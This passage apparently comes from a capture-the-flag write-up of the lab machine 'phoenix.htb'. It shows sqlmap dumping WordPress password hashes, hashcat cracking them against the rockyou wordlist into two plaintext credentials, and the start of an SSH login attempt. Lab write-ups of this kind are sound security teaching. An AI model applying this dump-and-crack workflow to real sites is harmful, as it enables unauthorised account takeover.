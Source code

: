     do you want to crack them via a dictionary-based attack? [Y/n/q] n
    Database: wordpress
    Table: wp_users
    Database: wordpress
    Table: wp_users
    [2 entries]
    +------+------------------------------------+
    | id   | user_pass                          |
    +------+------------------------------------+
    | 1    | $P$BA5zlC0IhOiJKMTK.nWBgUB4Lxh/gc. |
    | 5    | $P$BV5kUPHrZfVDDWSkvbt/Fw3Oeozb.G. |
    +------+------------------------------------+

    [22:13:19] [INFO] table 'wordpress.wp_users' dumped to CSV file '/home/oxdf/.sqlmap/output/phoenix.htb/dump/wordpress/wp_users.csv'



### Crack Hashes

The newer versions of `hashcat` will do mode detection for me which
identifies these are mode 400, phppass, WordPress (MD5), Joomla (MD5):



    $ /opt/hashcat-6.2.5/hashcat.bin hashes.txt /usr/share/wordlists/rockyou.txt 
    hashcat (v6.2.5) starting in autodetect mode
    ...[snip]...
    Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
    The following mode was auto-detected as the only one matching your input hash:

    400 | phpass | Generic KDF
    ...[snip]...
    $P$BA5zlC0IhOiJKMTK.nWBgUB4Lxh/gc.:phoenixthefirebird14   
    ...[snip]...
    $P$BV5kUPHrZfVDDWSkvbt/Fw3Oeozb.G.:superphoenix
    ...[snip]...



That's passwords for both users:



    phoenix:phoenixthefirebird14
    john:superphoenix



### SSH - Fail

I'll try each of these passwords with the username over SSH. I almost
always connect with `sshpass`, but this is weird because it prints a
banner, but then just returns to my local prompt:


